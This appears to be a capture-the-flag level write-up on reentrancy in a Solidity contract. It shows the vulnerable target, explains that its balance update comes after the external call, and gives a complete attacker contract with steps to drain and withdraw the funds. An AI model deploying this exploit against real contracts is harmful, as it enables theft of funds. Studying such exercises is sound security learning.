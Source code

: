 # 10. Re-entrency

The goal of this level is for you to steal all the funds from the contract.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Vulnerability

This contract does not respect the CHECK - EFFECT - INTERACTION pattern. EFFECT `balances[msg.sender] -= _amount;` happens after INTERACTION ` (bool result,) = msg.sender.call{value:_amount}("");`. It is possible to design a smart contract calling that function recursively to drain all funds from the target contract.
This attack is exactly what happen during the infamous DAO hack.

This can be done with the following contract :

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Reentrency {

    address owner;
    address targetContract;
    uint256 withdrawAmount;

    modifier onlyOwner() {
        require(msg.sender == owner);
        _;
    }

    constructor(address _targetContract) payable {
        require(msg.value >= 0.1 ether);

        owner = msg.sender;
        targetContract = _targetContract;
        withdrawAmount = msg.value;
        (bool success, ) = targetContract.call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));

        require(success);
    }

    function attack(uint256 amount) public {
        (bool success, ) = targetContract.call(abi.encodeWithSignature("withdraw(uint256)", amount));
        require(success);
    }

    function withdraw() onlyOwner() public {
        (bool success, ) = owner.call{value: address(this).balance}("");
        require (success);
    }

    receive() external payable {
        if (targetContract.balance == 0) {
            return;
        }

        uint256 toWithdraw = targetContract.balance > withdrawAmount ? withdrawAmount : targetContract.balance;
        attack(toWithdraw);
    }
}
```

Just make sure to call `attack` with a high enough gas limit and a `value` <= to your initial deposit. When the attack is done, you can withdraw the stolen funds by calling the `withdraw`.